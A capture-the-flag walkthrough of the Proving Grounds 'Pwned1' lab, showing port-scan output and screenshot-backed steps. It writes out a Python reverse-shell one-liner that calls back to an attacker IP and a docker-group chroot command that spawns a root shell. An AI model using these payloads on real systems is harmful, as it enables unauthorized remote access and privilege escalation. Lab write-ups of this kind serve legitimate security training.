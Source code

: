 ----------------

### CTF: Proving Grounds
### Lab: Pwned1

----------------

![image](https://github.com/user-attachments/assets/18f57589-c5bf-4539-aedc-79653559e814)

----------------

### Reconnaissance

- Rustscan's output

          ❯ rustscan -a 192.168.234.95 -- -Pn -sC -sV
          .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
          | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
          | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
          `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
          The Modern Day Port Scanner.
          ________________________________________
          : https://discord.gg/GFrQsGy           :
          : https://github.com/RustScan/RustScan :
           --------------------------------------
          🌍HACK THE PLANET🌍
          
          [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
          [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
          [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
          Open 192.168.234.95:22
          Open 192.168.234.95:21
          Open 192.168.234.95:80
          [~] Starting Script(s)
          [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
          
          Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
          [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 04:16 EDT
          NSE: Loaded 156 scripts for scanning.
          NSE: Script Pre-scanning.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          Initiating Parallel DNS resolution of 1 host. at 04:16
          Completed Parallel DNS resolution of 1 host. at 04:16, 0.02s elapsed
          DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
          Initiating Connect Scan at 04:16
          Scanning 192.168.234.95 [3 ports]
          Discovered open port 22/tcp on 192.168.234.95
          Discovered open port 21/tcp on 192.168.234.95
          Discovered open port 80/tcp on 192.168.234.95
          Completed Connect Scan at 04:16, 0.15s elapsed (3 total ports)
          Initiating Service scan at 04:16
          Scanning 3 services on 192.168.234.95
          Completed Service scan at 04:17, 6.41s elapsed (3 services on 1 host)
          NSE: Script scanning 192.168.234.95.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 6.67s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 1.28s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 0.00s elapsed
          Nmap scan report for 192.168.234.95
          Host is up, received user-set (0.14s latency).
          Scanned at 2024-09-30 04:16:58 EDT for 15s
          
          PORT   STATE SERVICE REASON  VERSION
          21/tcp open  ftp     syn-ack vsftpd 3.0.3
          22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
          | ssh-hostkey: 
          |   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
          | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
          |   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
          | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
          |   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
          |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
          80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
          |_http-server-header: Apache/2.4.38 (Debian)
          | http-methods: 
          |_  Supported Methods: HEAD GET POST OPTIONS
          |_http-title: Pwned....!!
          Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/29cfa229-23a8-424f-8693-fa43002fc684)

- Robots.txt reveals two hidden directories

![image](https://github.com/user-attachments/assets/e541a09d-7f8e-4ea1-a167-19355b60a497)

- `Hidden_text` directory contains a wordlist for directory fuzzing

![image](https://github.com/user-attachments/assets/49e8a81c-7c3e-4f3f-91d0-4a170d2d6968)

- I fuzzed for directories with the wordlist and got one file match.

![image](https://github.com/user-attachments/assets/79ebe5ad-2f70-4cc0-b359-d4588500b256)

- Checking the source of `pwned.vuln` reveals  ftp creds

![image](https://github.com/user-attachments/assets/cdefa81c-731e-4490-8dd3-eb91b43a17b9)

- Ftp acesss as ftp user

![image](https://github.com/user-attachments/assets/99a559df-4dcb-46d4-8390-f4a18d927ed5)

- The share directory contains a note.txt and an id_rsa file

![image](https://github.com/user-attachments/assets/2122b286-7e81-4f08-8409-9a892a2e165d)

- The note.txt points to a user `ariana`

![image](https://github.com/user-attachments/assets/1dce5721-fb14-462c-be47-c792418671d4)

- SSH access as user `ariana`

![image](https://github.com/user-attachments/assets/b3dab1fb-5643-4fa1-bd01-a7379f900004)


### Pivoting to user `selena`

- I ran `sudo -l` which shows that we can run a shell script as user `selena`.

![image](https://github.com/user-attachments/assets/980768fc-a372-470a-aeaa-d7078bb3a4e2)

- I checked the shell script and discovered that we can execute shell commands with string stored in variable `msg` which is executed when it gets to statement `$msg 2</dev/null`.

![image](https://github.com/user-attachments/assets/7252a0b1-5147-4aec-bf9c-0a4f5bc8879e)

- I created a bash script in directory `tmp` and added a rev bash shell code to it.I applied this method to call the script later in `messenger.sh`.

   PAYLOAD-:```echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.156\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'" > /tmp/script;chmod +x /tmp/script```

![image](https://github.com/user-attachments/assets/406269d1-bafa-46d1-bc63-c33bf8ce5dea)

- Shell as selena

![image](https://github.com/user-attachments/assets/f48f53ba-84d3-4e79-ac31-b534ce1e51b1)

### Privesc with group `docker`

- I ran command `id` and discovered that user `selena` is part of group `docker`.

![image](https://github.com/user-attachments/assets/8db07196-c4f9-4fe7-b4fb-d809b6609fc4)

- I used the payload to spawn a root shell with docker.
  Payload-:```docker run -v /:/mnt --rm -it alpine chroot /mnt bash```

-












